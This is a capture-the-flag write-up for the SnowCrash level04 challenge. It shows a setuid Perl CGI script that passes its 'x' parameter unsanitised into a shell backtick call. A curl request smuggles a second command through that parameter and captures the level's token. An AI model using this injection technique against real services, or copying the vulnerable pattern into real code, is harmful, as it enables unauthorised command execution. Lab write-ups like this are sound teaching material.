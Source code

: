  # 1st Step
List the file with `ls -l` will show us :  
`-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl`  
***Notes** : Again, the owner of the file is `flag04` so the user `level04` can execute it as `flag04`*  
  
Let's execute it to see what's appening  
```
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


level04@SnowCrash:~$
```  
Nothing happened, we should take a look at the code inside  
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```  
This program is executed from a web server hosted on local machine and reachable via the port 4747  
As we can see in the code above, it will print with `echo` the output of the command. In others terms it will print the value of the variable 'x' passed as parameter !  
-> Send a request to the script with [curl](https://curl.haxx.se/docs/manual.html) and supply it the parameter x=`getflag`  
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```  
level04 passed !  
  
***Notes** : We can also tape on a navigator "http://10.11.200.76:4747/?x=\`getflag\`"*